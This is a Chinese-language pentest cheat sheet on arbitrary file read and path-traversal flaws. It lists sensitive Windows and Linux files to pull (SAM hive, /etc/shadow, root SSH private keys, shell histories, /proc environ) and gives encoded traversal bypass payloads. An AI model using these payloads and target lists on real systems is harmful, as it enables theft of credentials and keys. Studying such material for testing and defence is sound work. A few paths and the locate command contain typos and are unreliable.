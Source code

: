 # Fileread

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [渗透测试-任意文件读取/下载漏洞](https://mp.weixin.qq.com/s/fpYKgybCQdSd5_AafNvt4w)

**相关案例**
- [京东商城两处任意目录遍历下载漏洞](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2016-0214222)
- [2 Path Traversal Cases](https://jlajara.gitlab.io/web/2020/03/29/Path_Traversal.html)
- [电信某分站配置不当导致敏感文件泄露](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-095088)
- [一个任意文件读取漏洞记录](https://toutiao.io/posts/423535/app_preview)
- [南方周末邮件服务器任意文件读取漏洞](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2013-045426)
- [一次文件读取漏洞的“危害升级”历程](https://www.freebuf.com/vuls/257629.html)

---

## 利用思路

### windows

**常规配置文件**
```
C:\windows\win.ini                          //可以用来判断是否为windows系统
C:\boot.ini                                 //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml    //IIS 配置文件
C:\Windows\repair\sam                       //存储系统初次安装的密码
C:\Program Files\mysql\my.ini               //Mysql 配置
C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
C:\Windows\php.ini                          //php 配置信息
C:\Windows\my.ini                           //Mysql 配置信息
```

**Windows Search索引文件(需要管理员权限)**

这个文件一般特别大,不是很推荐这种利用方法😅
```
%ProgramData%\Microsoft\Search\Data\Applications\Windows\Windows.edb
```

**日志文件**

%systemroot%\System32\winevt\Logs 目录下
```
Application.evtx
ConnectionInfo.evtx
Error.evtx
HardwareEvents.evtx
Internet Explorer.evtx
Key Management Service.evtx
Media Center.evtx
Microsoft-Windows-API-Tracing%4Operational.evtx
Microsoft-Windows-AppID%4Operational.evtx
Microsoft-Windows-Application Server-Applications%4Admin.evtx
Microsoft-Windows-Application Server-Applications%4Operational.evtx
Microsoft-Windows-Application-Experience%4Problem-Steps-Recorder.evtx
Microsoft-Windows-Application-Experience%4Program-Compatibility-Assistant.evtx
Microsoft-Windows-Application-Experience%4Program-Compatibility-Troubleshooter.evtx
Microsoft-Windows-Application-Experience%4Program-Inventory.evtx
Microsoft-Windows-Application-Experience%4Program-Telemetry.evtx
```

**命令行历史记录**
```
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### linux

**系统信息**
```
/etc/passwd
/etc/shadow
/etc/hosts
```

**历史记录**
```
/var/lib/mlocate/mlocate.db     # locate命令的索引数据库文件
/root/.bash_history             # bash 历史记录
/root/.mysql_history            # mysql 的 bash 历史记录
/root/.wget-hsts
```

**配置文件**
```
/opt/nginx/conf/nginx.conf      # nginx 的配置文件
/var/www/html/index.html
/etc/redis.conf
/etc/my.cnf
/etc/httpd/conf/httpd.conf      # httpd 的配置文件
```

**软硬件信息/进程信息**
```
/proc/self/fd/fd[0-9]*(文件标识符)
/proc/mounts
/porc/config.gz
/proc/sched_debug   # 提供 cpu 上正在运行的进程信息，可以获得进程的 pid 号，可以配合后面需要 pid的利用
/proc/mounts        # 挂载的文件系统列表
/proc/net/arp       # arp 表，可以获得内网其他机器的地址
/proc/net/route     # 路由表信息
/proc/net/tcp
/proc/net/udp       # 活动连接的信息
/proc/net/fib_trie  # 路由缓存
/proc/version       # 内核版本
/proc/[PID]/cmdline # 可能包含有用的路径信息
/proc/[PID]/environ # 程序运行的环境变量信息，可以用来包含 getshell
/proc/[PID]/cwd     # 当前进程的工作目录
/proc/[PID]/fd/[#]  # 访问檔案描述符
```

**ssh**
```
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
/root/.ssh/authorized_keys
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
/etc/ssh/sshd_config
/var/log/secure
```

**网络配置**
```
/etc/sysconfig/network-scripts/ifcfg-eth0
/etc/syscomfig/network-scripts/ifcfg-eth1
```

**locate.db**

Linux locate 命令用于查找符合条件的文档。一般输入 `locate xxx` 即可查找指定文件

locate 其会去保存文档和目录名称到数据库内(这个数据库中含有本地所有文件信息。Linux 系统自动创建这个数据库，并且每天自动更新一次)，然后查找合乎范本样式条件的文档或目录。一般这个数据库的位置在:
```
/var/lib/mlocate/mlocate.db
```

寻找 mlocate.db 中所有带有 properties 的路径
```bash
locate mlocate.db properties
```

---

## 绕过技巧

### 双写

- `../../../etc/passwd`
- `..././.././etc/passwd`

### 编码

- `../../../etc/passwd`
- `..%2F..%2F..%2Fetc%2Fpasswd`
- `..%252F..%252F..%252Fetc%252Fpasswd`
